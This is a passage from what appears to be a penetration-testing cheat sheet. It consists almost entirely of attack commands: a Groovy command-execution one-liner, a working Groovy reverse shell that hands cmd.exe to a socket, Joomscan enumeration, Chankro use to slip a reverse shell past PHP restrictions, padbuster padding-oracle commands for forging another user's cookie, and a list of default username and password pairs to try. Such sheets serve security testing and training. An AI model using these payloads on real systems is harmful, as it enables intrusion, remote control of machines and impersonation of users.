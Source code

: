 ```bash
#Groovy RCE
def process = "cmd /c whoami".execute();println "${process.text}";
#Groovy RevShell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

# Joomscan
joomscan -u  http://10.11.1.111
joomscan -u  http://10.11.1.111 --enumerate-components

# PHP bypass disable_functions and open_basedir
# Chankro
https://github.com/TarlogicSecurity/Chankro
python2 chankro.py --arch 64 --input rev.sh --output chan.php --path /var/www/html

# Cookies error padding:
# Get cookie structure
padbuster http://10.10.1.111/index.php xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka 8 -cookies "user=xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka" -error "Invalid padding"
# Get cookie for other user (impersonation)
padbuster http://10.10.1.111/index.php xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka 8 -cookies "user=xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka" -error "Invalid padding" -plaintext 'user=administratorme'
```

#### Default/Weak login

Search documentation for default passwords and test them

```
site:webapplication.com password
```

```bash
admin / admin
admin / password
admin / admin12345
admin / letmeinplease
admin / <blank>
admin / <servicename>
admin / <name of the box>
administrator / admin
user / user
user / 12345
user / password
guest / guest
root / root
root / admin
root / password
root / <servicename>
<username if you have> / password
<username if you have> / admin
<username if you have> / username
username / <servicename>
<name of the box> / <name of the box>
<name of the service / application> <name of the service / application>
default account / <name of the application>

```
